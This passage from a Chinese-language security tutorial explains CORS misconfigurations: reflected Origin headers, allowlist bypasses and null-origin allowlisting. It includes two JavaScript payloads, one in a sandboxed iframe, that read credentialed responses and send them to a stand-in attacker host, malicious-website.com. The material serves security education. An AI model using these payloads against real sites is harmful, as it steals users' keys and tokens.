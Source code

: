 CORS不支持使用通配符来匹配所有子域,如
```
Access-Control-Allow-Origin: *.a.com
```  
该方式是不支持的,唯一支持的通配符是只能接受全部站点.
```
Access-Control-Allow-Origin: *
```  
且通配符`*`和Header`Access-Control-Allow-Credentials: true`不能共存  

#### 客户端指定的Access-Control-Allow-Origin头 
Origin头:当发生跨域请求，或者同域时发送post请求，就会自动携带origin请求头,请求头origin表明了请求来自于哪个站点。包括且仅仅包括协议、域名和端口，并不包含任何路径信息.  

一些应用因为要维护大量的白名单域名与自己进行通信,这时候则会采取直接从请求的`Origin`Header来自动设置`Access-Control-Allow-Origin`而没有任何检查.  
```http
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://malicious-website.com
Cookie: sessionid=...
```
```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://malicious-website.com
Access-Control-Allow-Credentials: true
...
```  
如果响应包含任何敏感信息，如API密钥或CSRF令牌，则可以通过在网站上放置以下脚本来获取这些信息。  
```js
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
   location='//malicious-website.com/log?key='+this.responseText;
};
```  
#### Origin headers白名单绕过
因为CORS不支持`*.domain`的方式来匹配,有些应用会建立一个白名单,然后将请求中的`Origin`Header字段与白名单内的域名进行匹配,如果在白名单内则自动设置对应的`Access-Control-Allow-Origin`头.  
而白名单的实现方式则可能会造成绕过,如往往只匹配url开头或者结尾,或者使用一些不严重的正则表达式.  
只匹配`main.com`结尾->`evilmain.com`.  
只匹配`main.com`开头->`main.com.evil.com`
#### null origin Header
Origin header头支持值为null,在以下情况可能会发送null Origin Header.  
1. 跨域重定向.
2. 序列化数据请求.
3. 使用file:协议的请求
4. 沙盒跨域请求.
有些应用为了支持本地开发时方便,也会将null值加入白名单中,这导致可以通过null origin Header来跨域读取数据.  
通过沙盒的iframe标签发送带null origin Header的跨域请求.
```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='malicious-website.com/log?key='+this.responseText;
};
</script>"></iframe>
```
